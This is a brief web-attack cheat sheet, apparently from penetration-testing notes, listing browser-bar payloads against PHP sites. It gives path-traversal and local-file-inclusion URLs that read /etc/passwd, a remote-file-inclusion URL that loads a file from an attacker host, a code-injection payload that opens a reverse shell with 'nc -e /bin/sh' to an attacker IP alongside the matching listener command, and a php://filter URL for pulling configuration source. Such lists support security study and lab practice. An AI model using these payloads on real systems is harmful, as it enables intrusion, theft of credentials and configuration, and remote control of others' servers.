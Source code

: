 ### Hacks for in the browser

To attempt to view the /etc/passwd file </b>
`http://host/index.php?page=./../../../../../etc/passwd%00`

#### File Inclusions
```
# To check for LFI
http://target.com/?page=./../../../../../../../../../etc/passwd%00

# To check for RFI
http://target.com/?page=http://hackerip/evil.txt%00
```
#### Obtaining Shell through Browser Bar (PHP)
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
#### Accessing php files on the server through the browser bar
```
http://10.11.1.208/?page=php://filter/convert.base64-encode/resource=config

# The resultant code is base64 encoded and needs to be decoded with
echo thestringofcharactersyouweregivenfromabove | base64 --decode
```
